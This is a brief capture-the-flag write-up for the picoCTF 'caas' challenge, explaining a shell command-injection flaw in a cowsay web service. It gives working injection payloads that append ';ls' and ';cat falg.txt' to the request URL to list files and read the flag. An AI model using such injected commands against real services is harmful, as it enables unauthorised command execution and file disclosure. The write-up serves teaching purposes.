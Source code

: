 # caas

## Description
This write up will show how to solve the CTF for "caas"

## Solution
With cowsay, you can include a message between `{}`.</br>
The source code is not cleaning the input according to `index.js`.</br>
It is using an execute function, which might be bash.</br>
To separate functions withing bash, add a `;` and give a new command to execute next.</br>
Adding `;ls` after the the message, f.e. `/cowsay/{test};ls`, will show the following list:</br>
```
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
Now we can use the `cat` command to read the falg.txt file, assuming this will be the flag:</br>
`https://caas.mars.picoctf.net/cowsay/%7Btest%7D;cat%20falg.txt`</br>
This will give the flag indeed.
